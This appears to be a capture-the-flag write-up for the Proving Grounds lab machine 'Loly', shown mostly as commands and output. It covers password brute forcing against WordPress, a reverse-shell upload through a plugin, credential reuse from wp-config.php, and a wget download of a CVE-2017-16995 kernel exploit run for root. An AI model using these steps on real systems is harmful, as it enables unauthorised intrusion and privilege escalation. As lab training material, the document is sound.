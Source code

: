 ```yaml
---
layout: default
title: Loly
parent: Proving Grounds Play
nav_order: 23
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.242.121
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-14 21:06 EST
Nmap scan report for 192.168.242.121
Host is up (0.12s latency).
Not shown: 65050 closed tcp ports (reset), 484 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.31 seconds

```

# Enumeration

---

## 80 | HTTP

### Gobuster scan

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ gobuster dir -u http://192.168.242.121 -w /usr/share/wordlists/custom/large_directories.txt -x aspx,php,txt,conf -t 80 -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.242.121
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/custom/large_directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx,php,txt,conf
[+] Timeout:                 10s
===============================================================
2023/11/14 21:08:11 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 194] [--> http://192.168.242.121/wordpress/]
```

Checking _/wordpress/wp-admin_ results in page not found and attempted redirect to _loly.lc/wordpress_

Updating _/etc/hosts_

![admin](../../../assets/images/ctfs/proving_grounds/loly/admin.png)

### WPScan

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ wpscan --url http://loly.lc/wordpress --disable-tls-checks --enumerate p --enumerate t --enumerate

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

Run WPScan brute force on _loly_ user

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ wpscan --url http://loly.lc/wordpress --disable-tls-checks -U users.txt -P /usr/share/wordlists/rock
you.txt

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - loly / fernando
```

# Exploitation

---

Logon to _loly.lc/wordpress/wp-admin_ as _loly_

## Exploit AdRotate Plugin

The _AdRotate_ plugin allows file upload in zip format

![banner](../../../assets/images/ctfs/proving_grounds/loly/banner.png)

Edit php-reverse-shell.php and zip as _rev.php_ within _zip.php_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ zip rev.zip  rev.php
  adding: rev.php (deflated 59%)

```

Upload rev.zip

![upload](../../../assets/images/ctfs/proving_grounds/loly/upload.png)

Trigger by navigating to _/wordpress/wp-content/banners/rev.php_

![trigger](../../../assets/images/ctfs/proving_grounds/loly/trigger.png)

Receive the reverse shell in our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.121] 60228
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 18:34:05 up  1:45,  0 users,  load average: 0.02, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate Wordpress Config Files

Locate db creds in _wp-config.php_

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

## Pivot to Loly User

First tried the _lolyisabeautifulgirl_ password on _loly_ and it worked.

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password:
loly@ubuntu:/var/www/html/wordpress$ id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)

```

## Check Kernal Version

```bash
loly@ubuntu:/home$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

This version of Ubuntu 4.4.0-31-generic is vulnerable to CVE-2017-16995.

![searchsploit](../../../assets/images/ctfs/proving_grounds/loly/searchsploit.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ searchsploit -m 45010
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/vagrant/Documents/PG/PLAY/loly/45010.c



┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ gcc 45010.c -o 45010 --static

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Upload and run on the target to get root shell

```bash
loly@ubuntu:/home$ cd /tmp
loly@ubuntu:/tmp$ get http://192.168.45.217:8000/45010
No command 'get' found, but there are 18 similar ones
get: command not found
loly@ubuntu:/tmp$ wget http://192.168.45.217:8000/45010
--2023-11-14 18:50:07--  http://192.168.45.217:8000/45010
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776472 (758K) [application/octet-stream]
Saving to: ‘45010’

45010                     100%[=====================================>] 758.27K   857KB/s    in 0.9s

2023-11-14 18:50:08 (857 KB/s) - ‘45010’ saved [776472/776472]

loly@ubuntu:/tmp$ chmod +x 45010
loly@ubuntu:/tmp$ ./45010
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007a8aac00
[*] Leaking sock struct from ffff8800349703c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800773d2540
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8800773d2540
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# whoami
root

```
